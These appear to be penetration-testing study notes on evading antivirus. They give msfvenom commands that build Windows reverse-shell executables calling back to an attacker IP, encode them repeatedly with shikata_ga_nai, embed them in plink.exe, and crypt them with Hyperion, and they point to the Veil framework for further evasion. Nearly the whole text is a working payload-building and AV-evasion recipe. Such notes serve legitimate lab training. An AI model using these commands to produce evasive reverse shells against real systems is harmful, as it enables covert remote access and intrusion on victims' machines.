 # Avoid Antivirus
the `msfpayload` and `msfencode` have beeb depricated in Metasploit in favour of `msfvenom` - however the results of the following experiment would stay the same.  

## msfvenom
- `msfvenom --list payloads`
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.179 LPORT=4444 -o shell_reverse.exe`  
- `msfvenom -p windows/shell_reverse_tcp -o reverse_shell_tcp.exe --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

> we'll submit our executable to `virustotal` [https://www.virustotal.com/gui/home
> we'll manipulate our reverse_shell executable further in order to try and avoid as many AV's as possible.

## encoders
```
msfvenom -l encoders
x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```
> we'll now generate our reverse shell payload via `shikata_ga_nai` encoder, 9 times.
`msfvenom --payload windows/shell_reverse_tcp --out reverse_shell_tcp.exe --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

## embeddint in executables
We'll Specify a custom executable file to use as a template  
```
msfvenom --payload windows/shell_reverse_tcp --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 -x /usr/share/windows-binaries/plink.exe -f exe LHOST=10.11.0.179 LPORT=4444 > reverse_shell_tcp_embedded.exe
```
> results are not as good as we tought they'll be. but are improved.

## Packers and Crypters
### Hyperion
> We'll use `Hyperion` (cross compiled on kali for windows os)
```
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
# for older versions of Kali
i586-mingw32msvc-c++ Hyperion-1.0/Src/Crypter/*.cpp -o hyperion.exe
# or simply download it from https://github.com/Veil-Framework/Veil-Evasion/blob/master/tools/hyperion/hyperion.exe
```
```
i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
wine hyperion.exe reverse_shell_tcp_embedded.exe reverse_shell_tcp_embedded_crypted.exe
```

### Veil Framework
> https://github.com/Veil-Framework/Veil
> https://www.veil-framework.com/
- Evasion => Generates Anti-Virus avoiding executables
- Ordnance => Generates shellcode for supported payloads

